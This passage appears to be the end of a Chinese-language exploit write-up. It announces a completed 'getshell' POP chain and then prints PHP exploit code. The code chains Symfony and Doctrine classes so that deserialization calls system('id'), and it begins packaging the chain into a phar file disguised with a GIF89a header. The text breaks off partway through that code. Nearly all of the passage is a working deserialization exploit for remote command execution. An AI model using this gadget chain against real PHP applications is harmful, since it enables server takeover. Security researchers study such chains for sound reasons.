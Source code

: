 至此，getshell 的POP链已经完成。exp：

```php
<?php


//namespace Doctrine\Bundle\DoctrineBundle\Dbal {
//    class SchemaAssetsFilterManager
//    {
//        private $schemaAssetFilters;
//
//        public function __construct()
//        {
//            $this->schemaAssetFilters = array('system');
//        }
//    }
//}
namespace Symfony\Component\Console\Helper {
    class Dumper
    {
        private $handler;

        public function __construct()
        {
            $this->handler = 'system';
        }
    }
}

namespace Symfony\Component\Cache\Traits {
    class RedisProxy
    {
        private $redis;
        private $initializer;
        private $ready = false;

        public function __construct()
        {
            $this->redis = 'id';
            $this->initializer = new \Symfony\Component\Console\Helper\Dumper();
//            $this->initializer = new \Doctrine\Bundle\DoctrineBundle\Dbal\SchemaAssetsFilterManager();
        }
    }
}

namespace Doctrine\Common\Cache\Psr6 {
    class CacheAdapter
    {
        private $deferredItems;

        public function __construct()
        {
            $this->deferredItems = array(new \Symfony\Component\Cache\Traits\RedisProxy());
        }
    }
}


namespace {
    $a = new Doctrine\Common\Cache\Psr6\CacheAdapter();
    $phar = new Phar('test.phar');
    $phar->stopBuffering();
    $phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");
```